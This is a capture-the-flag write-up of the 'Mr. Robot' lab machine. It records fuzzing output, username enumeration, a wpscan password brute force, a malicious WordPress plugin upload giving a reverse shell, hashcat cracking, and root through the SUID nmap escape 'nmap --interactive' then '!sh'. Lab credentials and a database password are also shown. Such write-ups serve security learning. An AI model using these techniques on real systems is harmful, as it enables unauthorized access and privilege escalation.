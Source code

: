 # Mr. Robot

### Users:
robot

### Credentials:

**Wordpress login:**\
 | Username: elliot, Password: ER28-0652

**Machine:**\
 | Username: robot, Password: abcdefghijklmnopqrstuvwxyz

## Port Scan:

![nmap_scan](../pictures/mr-robot/nmap_scan.png)

## Content Discovery:

### Fuzzing
**URL              : http://10.10.238.147/FUZZ**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 125ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 136ms]
wp-login.php            [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 194ms]
wp-register.php         [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 131ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 106ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 113ms]
readme.html             [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 104ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 107ms]
license.txt             [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 153ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 105ms]
wp-commentsrss2.php     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 121ms]
wp-config.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 110ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
wp-settings.php         [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 97ms]
```

**URL              : http://10.10.238.147/FUZZ/**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
images                  [Status: 403, Size: 216, Words: 16, Lines: 10, Duration: 107ms]
admin                   [Status: 200, Size: 1077, Words: 189, Lines: 31, Duration: 115ms]
js                      [Status: 403, Size: 212, Words: 16, Lines: 10, Duration: 102ms]
css                     [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 115ms]
wp-content              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
wp-includes             [Status: 403, Size: 221, Words: 16, Lines: 10, Duration: 99ms]
wp-admin                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 527ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 468ms]
blog                    [Status: 403, Size: 214, Words: 16, Lines: 10, Duration: 100ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 621ms]
feed                    [Status: 200, Size: 809, Words: 12, Lines: 22, Duration: 807ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1390ms]
video                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 87ms]
image                   [Status: 200, Size: 11731, Words: 467, Lines: 170, Duration: 1536ms]
audio                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 115ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 116ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1361ms]
wp-login                [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 1388ms]
0                       [Status: 200, Size: 8341, Words: 285, Lines: 122, Duration: 1436ms]
```
### Tech Stack:
PHP/5.5.29\
WordPress version 4.3.1\
Web Server: Apache httpd

## Foothold / Privilege Escalation

### Initial Foothold
I looked in robots.txt I found an entry of “fsocity.dic” and and entry for the first flag.

![robots_file](../pictures/mr-robot/robots.png)

![dictionary_file](../pictures/mr-robot/dict.png)
- fsocity.dic turned out to be a large dictionary file with possible usernames and passwords.

I noticed there was some duplicates in fsocity.dic so I sorted it to eliminate duplicates. I used the forgot password page to try and find out if I have a valid username in the file. I used ffuf for this with the POST method and I filtered out all the lines with the count of 51 since I first tested to see what invalid output returns.

![username_enumeration](../pictures/mr-robot/possible_username.png)

I used wpscan to brute force the login page with the username elliot and for the password I used the sorted list,
Brute force attack found a valid password and I could login to the wordpress admin panel with the user elliot. In the dashboard
I notice that I could upload plugins, so using a malicious wordpress plugin script from github, I crafted a malicious plugin and uploaded it
using the dashboard.

![plugin_setup](../pictures/mr-robot/malicious_plugin_setup.png)

![plugin_upload](../pictures/mr-robot/plugin_upload.png)

After uploading I had to visit a specific .php file printed after setting up the plugin and I got a reverse shell as a service user.

![service_user](../pictures/mr-robot/initial_foothold.png)

#### Moving to a real user
In robot's home directory there was a file named password.raw-md5 containing his password in a hashed format.

![robots_home_directory](../pictures/mr-robot/user_home.png)

I used a tool called hashcat to crack the hash using the file I found using robots.txt and that way I was able to log in
as the user robot.

![hash_crack](../pictures/mr-robot/hash_crack.png)

![robot_user](../pictures/mr-robot/user_robot_flag.png)

#### Machine enumeration:
```
╔══════════╣ Analyzing Wordpress Files
-rwxr-x--- 1 bitnamiftp daemon 3756 Nov 14  2015 /opt/bitnami/apps/wordpress/htdocs/wp-config.php                   
define('DB_NAME', 'bitnami_wordpress');
define('DB_USER', 'bn_wordpress');
define('DB_PASSWORD', '570fd42948');
define('DB_HOST', 'localhost:3306');
define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('FTP_USER', 'bitnamiftp');
define('FTP_HOST', '127.0.0.1');
```
**SUID Binaries:**
```
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

### Privilege Escalation
As the user robot I was not allowed to run sudo on the machine, but I noticed in the SUID binaries,
nmap had a SUID bit set, meaning it was running as root.

![suid_binaries](../pictures/mr-robot/SUID_nmap_privesc.png)

To exploit this I first wanted to see if I was able to run nmap interactively and I was, so next thing
I went on gtfobins and found that using the interactive nmap shell I can elevate my privileges to root
using:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```
![gaining_root](../pictures/mr-robot/root_privesc.png)


## Journal
**Malicious wordpress plugin:**\
https://github.com/wetw0rk/malicious-wordpress-plugin\
**Nmap SUID bit exploit:**\
https://gtfobins.github.io/gtfobins/nmap/#suid